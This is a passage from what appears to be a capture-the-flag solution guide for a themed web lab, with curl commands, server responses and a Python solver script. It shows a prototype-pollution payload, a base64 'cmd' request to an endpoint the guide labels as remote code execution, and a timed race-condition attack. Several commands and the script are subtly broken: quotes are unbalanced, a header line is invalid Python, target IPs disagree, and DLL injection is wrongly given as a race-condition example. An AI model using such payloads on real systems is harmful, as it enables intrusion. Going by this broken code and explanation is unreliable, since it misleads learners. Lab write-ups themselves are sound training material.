  -d '{ "meta": { "__proto__": { "polluted": "true" } } }'
```

This will yield:

```json
{
  "token": "<token2>",
  "next_headers": {
    "X-Forwarded-Body": "token2" \
    "X-Forwarded-Mind" : "token1" \
    "X-Perspective": "awakened"
  }
}
```

Here's a visual of success:



However, let's break down how we got here.

##### Answer Breakdown
HTTP Parameter Pollution has a typical baseline template 

You discover via server hints or reading error messages that a payload is required. Sending this:

(Example)

```bash
curl -X POST http://10.4.4.21:5002/stop \
  -H "X-Forwarded-Mind: "token1" \
  -H  "X-Perspective": "resilience"
  -H "Content-Type: application/json" \
  -d '{ "meta": { "__proto__": {} } }'
```

Yields:

```text
"You're close... Try using a dict with polluted=true."
```

This is your **second roadblock** — learning that your prototype object must include:

```json
"polluted": "true"
```

Knowing to add this information into your payload comes from feedback from the server. This brings us to the `Hints` section below.

##### Hints
Depending on how close you are the solution, you will be given slight guidance to help you along the way:
* All this smog; is it true that this world is 'polluted'. Set it.
* Try using a dict instead of a string for __proto__
* Try wrapping your prototype in a container... like 'meta'.
* This isn't the shape we were expecting. We're expecting nested activity.

With the payload now fully formed, you're ready to claim your **token2**, unlocking a new perspective (`awakened`) and a new token. 

### Question 3

⛅ Obtained through self reflection - a third perspective (soul)

#### Solving Strategy

**Vulnerability Detected:** In this instance, we have a classic Remote Code Execution (RCE) vulnerability. This vulnerability allow access to the affected system's underlying operating system and gives the attacker the ability to potentially gain full control of the asset in question.

The endpoint vulnerable is `/encode` which can be found in the API Explorer ('/explorer') located at `http://10.4.4.23:5003/explorer`. 

#### Answer 
The answer to this challenge can be found below:

```bash
curl -X POST "http://10.4.4.22:5003/encode" \
  -H "Content-Type: application/json" \
  -H "X-Forwarded-Mind: <token1>" \
  -H "X-Forwarded-Body: <token2>" \
  -H "X-Perspective: awakened" \
  -d '{"task":{"payload":{"exec":{"cmd":"c291bA=="}}}}'
```

The `base64` encoded payload is the word `soul` which is hinted at through errors:

```text
{"error": "Your command feels... hollow and without 'soul'.}
```

This is detected if the entire structure is correct **except** for the payload. Additionally, if the cmd is not encoded, you receive the following message along with error output:

```text
{"hint": "Try b8^2."}
```

This hints, mathematically to use of `base64` or b64 encoding.

#### Answer Breakdown

##### Automated Detection and Exploitation: Solver Script
This objective can be solved using the following script; please note that all `8` magic endpoints must be hit first before this endpoint is activated. The `bruteforcer` script for this objective can help with that:

```python
#!/usr/bin/env python3

import argparse
import requests
import base64
from bs4 import BeautifulSoup

def get_endpoints(host, port):
    url = f"http://{host}:{port}/explorer"
    resp = requests.get(url)
    soup = BeautifulSoup(resp.text, 'html.parser')
    links = soup.find_all('a')
    endpoints = [link.get('href') for link in links if link.get('href') and link.get('href').startswith("/")]
    return endpoints

def visit_endpoints(host, port, headers, endpoints):
    print("[+] Visiting discovered endpoints to track perspective...")
    for ep in endpoints:
        url = f"http://{host}:{port}{ep}"
        resp = requests.get(url, headers=headers)
        if resp.status_code == 200:
            print(f"Visited: {ep}")
        else:
            print(f"Unexpected response {resp.status_code} from {ep}")

def send_payload(host, port, headers):
    print("\n[+] Sending encoded payload to /encode...")
    cmd = "soul"   # <--- This is the string you want, base64 encoded
    encoded_cmd = base64.b64encode(cmd.encode()).decode()

    payload = {
        "task": {
            "payload": {
                "exec": {
                    "cmd": encoded_cmd
                }
            }
        }
    }

    resp = requests.post(f"http://{host}:{port}/encode", headers=headers, json=payload)
    if resp.status_code == 200:
        print("[+] Encode successful!")
        print(resp.json())
    else:
        print(f"[!] Encode failed: {resp.status_code}")
        print(resp.text)

def download_token(host, port):
    print("\n[+] Attempting to download the token...")
    resp = requests.get(f"http://{host}:{port}/download_token")
    if resp.status_code == 200:
        with open("token3.txt", "wb") as f:
            f.write(resp.content)
        print("[+] Token downloaded as token3.txt")
    else:
        print(f"[!] Failed to download token: {resp.status_code}")
        print(resp.text)

def main():
    parser = argparse.ArgumentParser(description="Soul Solver (Soul Portal)")
    parser.add_argument("--host", required=True, help="Target IP")
    parser.add_argument("--port", default=5003, type=int, help="Port number (default: 5003)")
    parser.add_argument("--token1", required=True, help="First token value (Mind)")
    parser.add_argument("--token2", required=True, help="Second token value (Body)")
    args = parser.parse_args()

    headers = {
        "X-Forwarded-Mind": args.token1,
        "X-Forwarded-Body": args.token2,
        "X-Perspective": "awakened",
        "Content-Type: "application/json"
    }

    print("[+] Scraping endpoints...")
    endpoints = get_endpoints(args.host, args.port)

    print("\n[+] Visiting endpoints...")
    visit_endpoints(args.host, args.port, headers, endpoints)

    print("\n[+] Sending base64 encoded payload...")
    send_payload(args.host, args.port, headers)

    print("\n[+] Trying to download token...")
    download_token(args.host, args.port)

if __name__ == "__main__":
    main()
```

In this case, you would perform the following:

```python
python3 c47_master_soul.py --host 10.4.4.21 --token1 <token1> --token2 <token2>
```

##### Step One: Magic Control
If you have not hit the magic endpoints, you will receive this message:

```text
{"error": "Unauthorized Access. Listen to your soul - you have not met your true potential yet."}
```

Using the `bruteforcer`, we can reach all the endpoints:



##### Step Two: Endpoint Interaction and payload building
The endpoint will provide several hints as to the proper structure of the payload needed to complete this objective. One of the primary error messages can be found below:

```text
{"error": "Malformed JSON", "hint": "The journey begins at 'task', and ends with a 'cmd'."}
```

Several more hints are provided as challengers navigate potential payloads:
* The journey begins at 'task'. Ensure your JSON has a 'task' object.
* Task must be a JSON object (not a string or number).
* Inside 'task', you must have 'exec', 'payload' and 'cmd' elements to proceed.
* The journey begins at 'task', and ends with a 'cmd'." - This sentence alone tells us we need a `JSON` data structure for our payload with at least `two` elements and their ordering.

###### Step Three: Structure
This leads us to a payload that looks like this:

```text
{
  "task": {
    "payload": {
      "exec": {
        "cmd": "BASE64_ENCODED_COMMAND"
      }
    }
  }
}
```

💡 Please note that the server will tell you if you're missing the appropriate Content-Type (application/json).

##### Step Four: Token Retrieval
Once the payload has been sent, challengers are notified that the "download_token" endpoint is now available. To retrieve your token, simply perform the following:




```bash
curl http://10.4.4.22:5003/download_token -o token.txt
```

Result: 



You are now presented with 🪙 token 3 as well as a new header and final perspective (`acceptance`).

### Question 4

✌️ Obtained through patience - a fourth perspective (peace)

#### Solving Strategy

**Vulnerability Detected:** In this final objective, we have a classic `race condition`. Sometimes in life we have to cope with difficult situations and patience can often be one element to overcoming adversity. 


💡 **About Race Conditions:** In the world of exploit development, this is often abused when a resource or object is trusted however, protections against its reliance on external objects are non-existent or limited. An example of this DLL Injection, where adversaries rename a file with a set of malicious libraries and replaces the currently accepted DLL in its installation or environment path. When the program starts, it may search a path in a certain pattern that may call your DLL first before any other elements that it should normally call thus giving you potential control over the application or executable. 

The endpoint vulnerable is `/timeout` which can be found in the API Explorer ('/explorer') located at `http://10.4.4.23:5004/explorer`. 

As with previous objectives, you must clear all magic endpoints before continuing however, their logic is reversed to mimic things going wrong in life. Right is wrong and wrong is right; this is depicted in the error messages (more information in the `Bruteforcing` section earlier in this guide).

#### Step One: Detection

Using `GET` and `POST` will yield HTTP 405 Method Not Allowed error. Another common verb they can try is `PATCH`.

Submitting a singular request to the endpoint, as seen below, will yield a message telling them that they made a first good attempt but have to guess when to submit the other attempt within a minute:

```bash
curl -i -X PATCH \
  -H "X-Forwarded-Mind: <token1>" \
  -H "X-Forwarded-Body: <token2>" \
  -H "X-Forwarded-Soul: <token3>" \
  -H "X-Perspective: acceptance" \
  http://10.4.4.21:5004/timeout
```

Using the bruteforce script (soul finder), you can expect the following output:



#### Step Two: Exploitation

Simply running the following commands will trigger the vulnerability and provide you with the final token and a farewell message.

```bash
curl -X PATCH http://10.4.4.23:5004/timeout \
  -H "X-Forwarded-Mind: token1" \
  -H "X-Forwarded-Body: token2" \
  -H "X-Forwarded-Soul: token3" \
  -H "X-Perspective: acceptance" \
  -H "Content-Type: application/json" && sleep 10 && \
curl -X PATCH http://10.4.4.23:5004/timeout \
  -H "X-Forwarded-Mind: token1" \
  -H "X-Forwarded-Body: token2" \
  -H "X-Forwarded-Soul: token3" \
  -H "X-Perspective: acceptance" \
  -H "Content-Type: application/json"
```

If challengers get close to the timing but narrowly miss, they will receive the following message:

```json
{"error": "Too slow. Patience and concurrent thought solves our deepest problems."}
```

`Concurrent thought` is the giveaway in this instance.


```json
{"🪙 token": "token4","message": "🌿️You achieved peace by mastering the flow of time. "}
```

```json
{"error": f"Your timing was off. It takes anywhere from a second to a minute to change your left.",
"hint": " You are in a 🎯 race with yourself, mindhunter."}
```

```json
{"message": "First move recorded. Breathe deeply. Repeat this move but guess when you must take it."}
```

##### Step Three: Celebrate

Here is an image of a successful journey:



Congratulations Mindhunter; you made it.

You will receive several congratulation messages:

```json
{"🪙 token": "token4","message": "🌿️You achieved peace by mastering the flow of time. "}
```

**This concludes the Solution Guide for this challenge** - akum4
